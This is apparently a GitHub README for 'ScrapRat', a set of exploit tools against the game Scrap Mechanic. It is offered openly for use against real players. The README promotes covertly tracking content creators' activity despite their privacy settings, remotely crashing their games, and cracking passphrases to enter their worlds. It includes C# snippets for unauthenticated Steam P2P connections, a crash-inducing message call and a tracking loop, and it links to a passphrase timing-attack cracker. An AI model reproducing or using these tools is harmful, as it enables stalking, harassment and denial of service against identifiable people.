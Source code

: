 # Welcome to the ScrapRat repo!
### What is this??
This is a collection of software, code snippets, sample cli's, and demonstrations outlining different impactful CWE's that are currently available to exploit in [Scrap Mechanic](https://www.scrapmechanic.com/) as of 3/21/2024.
As some of you may know, Scrap Mechanic is a wonderful game with plentiful updates and it should come as no surprise as to why these CWE critical vulnerabilities exist in the game and why they will likely continue to exist for the foreseeable future.

Some of the things the CWE's allow for include `cyber stalking`, `remote game crashing`, and `unauthorized world entry`.

Thats right! Have you ever wanted to know when exactly your favorite content creators are playing Scrap Mechanic?
Well now you can forcefully track their Scrap Mechanic activity without their knowledge even if their steam profile is on maximum privacy and they are always 'offline'.

Why stop there? Maybe you get sick and tired of the Scrap Mechanic content..?
Well have I got some new for you! With just a few clicks, their game wont last half a second before crashing! This means no more of that oh so stinky Scrap Mechanic content.

Now, if thats not your cup of tea I've got one last option for you (my personal favorite). In just (on average) 15 minutes, you will have cracked the code and you will be able to join ANY of your favorite content creators when you use the previous cyber stalking tool to find out when they are playing the game. Now you can play with your favorite content creators!

#
Now, back to business...

- [x] [CWE-306](https://cwe.mitre.org/data/definitions/306.html)
```csharp
internal HSteamNetConnection GetConnection() =>
this.hSteamNetConnection ??= (HSteamNetConnection)this.Interupt.RunCancelable(() => 
SteamNetworkingSockets.ConnectP2P
    (ref this.NetworkingIdentity, 0, LongTimeoutOptions.Length, LongTimeoutOptions));
```
With additional parameters
```csharp
private static readonly SteamNetworkingConfigValue_t[] LongTimeoutOptions = [
    new SteamNetworkingConfigValue_t
    {
        m_eDataType = ESteamNetworkingConfigDataType.k_ESteamNetworkingConfig_Int32,
        m_eValue = ESteamNetworkingConfigValue.k_ESteamNetworkingConfig_TimeoutConnected,
        m_val = new SteamNetworkingConfigValue_t.OptionValue { m_int32 = 500 }
    },
    new SteamNetworkingConfigValue_t
    {
        m_eDataType = ESteamNetworkingConfigDataType.k_ESteamNetworkingConfig_Int32,
        m_eValue = ESteamNetworkingConfigValue.k_ESteamNetworkingConfig_TimeoutInitial,
        m_val = new SteamNetworkingConfigValue_t.OptionValue { m_int32 = int.MaxValue }
    }
];
```
- [x] [CWE-476](https://cwe.mitre.org/data/definitions/476.html)
```csharp
SteamNetworkingSockets.SendMessageToConnection(connection, 0, 0, 0, out long _);
```
- [ ] [CWE-208](https://cwe.mitre.org/data/definitions/208.html) Comming Soon :tm:

- [ ] [CWE-307](https://cwe.mitre.org/data/definitions/307.html) Comming Soon :tm:


# Projects
The CWE's above have been implemented in a few different and easy to use solutions. 
* ~~[Blacklist](https://github.com/TheGuy920/ScrapRat/blob/main/ScrapRat/Game.cs#L58)~~
* [Player Tracker](https://github.com/TheGuy920/ScrapRat/blob/main/NetworkingWebApi/Program.cs#L67-L76)
* [Passphrase Timing Attack](https://github.com/TheGuy920/ScrapRat/blob/main/PasswordCracker/Program.cs#L9)

### NetworkingWebApi [-->](https://github.com/TheGuy920/ScrapRat/blob/main/NetworkingWebApi/Program.cs#L81)
A sample has been created demonstrating how to initiate connections to users
```csharp
foreach (CSteamID cstid in steamids)
    client.ConnectToUserAsync(cstid);
```

### NetworkingWebApi [-->](https://github.com/TheGuy920/ScrapRat/blob/main/NetworkingWebApi/Program.cs#L67-L76)
A sample has been created showcasing the cyber stalking capabilities
```csharp
client.OnConnectionPlaystateChanged += delegate;
foreach (var cstid in cstids)
{
    client.ConnectToUserAsync(cstid);
    Logger.LogInfo($"Now tracking: {getNameString(cstid)}");
}
```

